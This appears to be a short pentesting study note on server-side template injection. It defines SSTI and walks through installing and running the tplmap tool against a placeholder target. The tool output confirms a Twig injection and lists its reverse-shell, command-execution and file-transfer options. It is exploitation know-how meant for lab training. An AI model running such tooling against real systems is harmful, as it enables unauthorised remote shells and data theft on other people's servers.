 # SSTI (Server Side Template Injection)

Cobalt [Blog](https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti).

[Hacktricks ](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

[PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

Template engines read tokenized strings from template documents and produce rendered strings with actual values in the output document. Templates are commonly used as an intermediary format by web developers to create dynamic website content. Server-Side Template Injection (`SSTI`) is essentially injecting malicious template directives inside a template, leveraging Template Engines that insecurely mix user input with a given template.

Tool:

[tplmap](https://github.com/epinna/tplmap)

```shell-session
Staphy@htb$ git clone https://github.com/epinna/tplmap.git
Staphy@htb$ cd tplmap
Staphy@htb$ pip install virtualenv
Staphy@htb$ virtualenv -p python2 venv
Staphy@htb$ source venv/bin/activate
Staphy@htb$ pip install -r requirements.txt
Staphy@htb$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>' -d name=john

[+] Tplmap 0.5
    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'name' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin is testing blind injection
[+] Jinja2 plugin is testing rendering with tag '{{*}}'
[+] Jinja2 plugin is testing blind injection
[+] Twig plugin is testing rendering with tag '{{*}}'
[+] Twig plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: name
  Engine: Twig
  Injection: {{*}}
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, php code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

### Brute-Force Detection [List](https://github.com/carlospolop/Auto\_Wordlists/blob/main/wordlists/ssti.txt)

